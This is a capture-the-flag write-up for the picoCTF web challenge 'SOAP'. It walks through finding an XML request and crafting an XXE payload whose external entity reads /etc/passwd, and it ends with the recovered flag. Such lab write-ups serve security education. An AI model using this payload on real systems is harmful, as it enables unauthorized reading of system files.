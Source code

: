 # web/SOAP
Write-up by: [ptrckstuns](https://github.com/ptrckstuns)

## Description
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

## Solution
1. By analyzing the web application, a hint is discovered from this javascript file.
   ![](/attachments/soap1.png)
   > Smart guess is XML Injection or XXE
2. By observing the requests, the web application sends a request with XML as payload.
   ![](/attachments/soap2.png)
3. Craft an XML injection / XXE payload
    ```xml
    <!--?xml version="1.0" ?-->
    <!DOCTYPE joyuriz [<!ENTITY flag SYSTEM "file:///etc/passwd"> ]>
    <data>
    <ID>&flag;</ID>
    </data>
    ```
4. Send the request with malicious payload. Observe the result.
   ![](/attachments/soap3.png)

**Flag:** `picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}`